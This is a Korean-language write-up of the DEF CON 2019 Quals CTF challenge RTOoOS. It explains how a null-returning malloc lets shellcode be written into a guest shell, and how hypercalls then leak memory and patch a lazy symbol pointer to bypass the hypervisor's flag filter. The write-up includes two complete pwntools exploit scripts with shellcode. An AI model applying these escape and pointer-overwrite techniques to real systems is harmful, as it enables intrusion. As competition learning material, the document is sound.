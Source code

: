 ```yaml
---
title: "DEF CON 2019 Quals / RTOoOS"
date: 2019-07-08 21:55:00 +0000
categories: CTF
---
```


# DEF CON 2019 Quals / RTOoOS

keyword: hypervisor, macOS

데프콘 예선 때, 종료 10분 전에 브루트포싱에 성공하여 플래그를 땄던 문제이다. 그 때 제대로 분석 못하고 얼렁뚱땅 넘어간 부분이 많아서 다시 분석해보았다. (브루트포싱 없이 풀 수 있을까 하고 다른 팀들 write-up을 찾아봤는데 다 똑같았다 ㅋㅋㅋ)

## Solution

### 유저 프로그램 분석

이 문제의 핵심은 리버싱이다.

```
➜  rtooos file crux
crux: data
```

data 파일을 제공하는데 IDA에 넣어서 코드로 분석할 수 있다. IDA로 보면 모든 함수가  `sub_xxx` 형식이다. 동적 디버깅도 못한다. 리모트로 연결해보면서 감으로 함수 리네이밍하면서 정적 분석을 해야 한다.

```
CS420 - Homework 1
Student: Kurt Mandl
Submission Stardate 37357.84908798814
[RTOoOS>
```

간단한 shell 프로그램이다. (대학생 과제를 모티브로 낸 문제인 것 같다.)

![image-20190708183914155](/assets/img/image-20190708183914155.png)

위는 export를 처리하는 부분이다. 환경변수라서 당연히 key-value 쌍으로 처리한다. 첫 for 루틴에서 기존에 존재하는 이름이 동일한 환경변수 값들을 모두 업데이트해준다. 그 후 두번째 for 루틴에서는 새로운 key-value 쌍을 추가해준다. (환경변수 특수 기호 `$`를 처리해주는 로직도 있는데 이를 통해 버퍼오버플로우를 낼 수도 있을 것 같았다. 하지만 exploit에 쓰지는 않았다.)

`value` 값은 `malloc`으로 메모리를 할당 받고 값이 써진다. `malloc`에서 이상한 점이 있다.

![image-20190708184328200](/assets/img/image-20190708184328200.png)

`null`값이 리턴될 수 있다는 것이다. 이렇게 되면 가상메모리 영역의 0x0번지에 값을 쓸 수 있게 된다. 하이퍼바이저에서 오프셋을 다르게 해놓는다면 문제를 못 풀게 되지만 다행스럽게도 오프셋을 다르게 해두진 않았다.

실제로 변수 a를 아무렇게나 할당하고

![image-20190708184808226](/assets/img/image-20190708184808226.png)

값을 출력하여 data 파일과 비교해보면

![image-20190708184830328](/assets/img/image-20190708184830328.png)

똑같다는 것을 알 수 있다.



![image-20190708184555226](/assets/img/image-20190708184555226.png)

0x100 번지에 어떤 함수가 하나 존재하고

![image-20190708184604068](/assets/img/image-20190708184604068.png)

이는 `malloc`에서 호출된다. 해당 메모리 영역에 write 권한과 execute 권한이 걸려있길 간절히 빌면서 이 영역에 쉘코드를 overwrite한다.

```python
from pwn import *
import time

#context.log_level='DEBUG'
context.arch="amd64"

shellcode = '''
//readFile(0x1508)
xor rax, rax
add rax, 0x1508
mov edi, 0x66
out dx, al
'''

shellcode = asm(shellcode)

payload  = "\x90"*0x100
payload += shellcode

p = process(['honcho', 'crux', '20'])

# allocate at 0x0
for i in xrange(7):
  p.sendlineafter("[RTOoOS> ", 'export a')

p.sendlineafter("[RTOoOS> ", 'export a=%s' % payload)

p.interactive()
```

![image-20190708185220099](/assets/img/image-20190708185220099.png)

이렇게 하이퍼바이저를 읽어올 수 있다.

### 하이퍼바이저 분석

하이퍼바이저의 핵심 코드는 다음과 같다.

![image-20190708185522466](/assets/img/image-20190708185522466.png)

하이퍼콜 형식으로 구성되어 있다. flag 파일을 읽으려고 하면 필터링해버린다. 이를 우회해줘야 한다. `strcasestr`의 lazy symbol pointer를 atoi로 변경하면 우회 가능하다.

하지만 지금은 코드 실행만 할 수 있을 뿐, 메모리 주소는 아는게 없다. 따라서 메모리 릭을 해야 하는데 여기서 브루트포싱이 약간 필요하다. 이 문제 환경에서만 그런지 모르겠지만, 몇번 테스트를 해보니 macOS에서는 code 영역과 heap 영역의 오프셋 차이가 고정이었다. (부팅 때마다 이 차이가 달라지는 것 같다.) `vm_mem` 값을 기준으로 브루트포싱을 수행하여 오프셋 차이를 계산하면 리모트 서비스의 코드영역 베이스 주소를 알 수 있게 된다. 이를 통해 lazy symbol pointer 테이블을 수정해주면 된다.

#### Exploit Code

```python
from pwn import *
import time

#context.log_level='DEBUG'
context.arch="amd64"

'''
seg000:0000000000001508 a2              db 'honcho',0
'''

vmemAddr = 0x100002318
bin_base = 0x100000000
vmem     = 0x100096000 # different offset between code & heap per booting.
atoi_got = 0x100002040
filt_got = 0x100002170

shellcode = '''
/*
//readFile(0x1508)
xor rax, rax
add rax, 0x1508
mov edi, 0x66
out dx, al
*/

// puts(atoi_got)
xor rax, rax
sub rax, %s
mov edi, 0x64
out dx, al

// read(0, filt_got, ...)
xor rax, rax
sub rax, %s
mov edi, 0x63
out dx, al

// read(0, flag, ...)
xor rax, rax
add rax, 0x1000
mov edi, 0x63
out dx, al

// ReadFile(flag)
xor rax, rax
add rax, 0x1000
mov edi, 0x66
out dx, al
''' % (hex(vmem - atoi_got), hex(vmem - filt_got))

shellcode = asm(shellcode)

payload  = "\x90"*0x100
payload += shellcode

p = process(['honcho', 'crux', '20'])

# allocate at 0x0
for i in xrange(7):
  p.sendlineafter("[RTOoOS> ", 'export a')

p.sendlineafter("[RTOoOS> ", 'export a=%s' % payload)
atoi = u64(p.recvuntil("\x7f\x0a")[-7:-1].ljust(8,"\x00"))
log.info("atoi = 0x%x" % atoi)

p.send(p64(atoi))
time.sleep(0.1)
p.send('flag\x00')

p.interactive()
```

#### Result

![image-20190708190242930](/assets/img/image-20190708190242930.png)
